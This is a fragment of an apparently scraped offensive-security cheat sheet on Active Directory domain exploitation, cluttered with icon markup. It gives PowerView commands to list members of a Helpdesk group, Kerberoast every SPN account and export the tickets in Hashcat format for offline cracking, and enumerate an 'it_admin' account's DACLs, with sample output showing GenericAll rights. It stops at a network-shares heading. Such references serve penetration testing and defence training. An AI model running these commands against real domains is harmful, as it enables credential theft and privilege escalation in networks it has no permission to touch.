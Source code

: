 `Get-DomainGroupMember -Identity "Helpdesk" | Select-Object membername `

##

SPN Ticket Request (Kerberoast)[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='403'%3e%3cg data-evernote-id='404' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='405' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='406' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#spn-ticket-request-kerberoast)

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation `

##

Enumerate User DACLs[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='419'%3e%3cg data-evernote-id='420' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='421' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='422' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#enumerate-user-dacls)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='426'%3e%3cg data-evernote-id='427' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='428' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='429' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

1PS C:\> Get-DomainObjectAcl -Identity it_admin -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID burmat) }

2​
3AceType : AccessAllowed
4ObjectDN : CN=it_admin,CN=Users,DC=BURMAT,DC=CO
5ActiveDirectoryRights : GenericAll
6OpaqueLength : 0
7ObjectSID : S-1-5-21-2736429227-4547413232-2815246478-1130
8InheritanceFlags : None
9BinaryLength : 36
10IsInherited : False
11IsCallback : False
12PropagationFlags : None
13SecurityIdentifier : S-1-5-21-2736429227-4547413232-2815246478-1107
14AccessMask : 983551
15AuditFlags : None
16AceFlags : None
17AceQualifier : AccessAllowed

##

Enumerate Network Shares[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='490'%3e%3cg data-evernote-id='491' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='492' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='493' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#enumerate-network-shares)
